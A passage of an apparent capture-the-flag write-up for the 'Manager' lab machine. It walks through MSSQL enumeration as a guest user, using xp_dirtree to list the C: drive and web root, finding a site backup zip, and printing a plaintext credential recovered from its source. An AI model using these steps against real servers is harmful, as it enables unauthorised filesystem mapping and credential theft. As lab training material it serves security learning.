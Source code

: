 ```
SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_monitor;
[%] select top 1 * from spt_monitor;
   lastrun   cpu_busy   io_busy   idle   pack_received   pack_sent   connections   pack_errors   total_read   total_write   total_errors   
----------   --------   -------   ----   -------------   ---------   -----------   -----------   ----------   -----------   ------------   
2019-09-24 14:21:40         30        30   7220              39          39            53             0            0             0              0   
```

The `SELECT` query above has `top 1 *` that prints the first query from each table. This will print the first row from the table so that you don't end up printing the full table if the table has lot of data. Okay nothing interesting in Masters. Let's change the database and pull out data from another table.
###### `Using the mssql procedure - xp_dirtree`
One of the procedure within mssql was enabled `xp_dirtree`
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree 
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   
Documents and Settings          1      0   
inetpub                         1      0   
PerfLogs                        1      0   
Program Files                   1      0   
Program Files (x86)             1      0   
ProgramData                     1      0   
Recovery                        1      0   
SQL2019                         1      0   
System Volume Information       1      0   
Users                           1      0   
Windows                         1      0   
```

Simply doing `xp_dirtree` will list out the folders in C: Drive. Now I can explore other folders.
###### `Exploring C:\inetpub\wwwroot using xp_dirtree`
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1   
```

We have a zip file which we can download from the Web. It's a web site source code.
![](Manager_src0.png)
###### `Exploring the Source Code`
```
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
```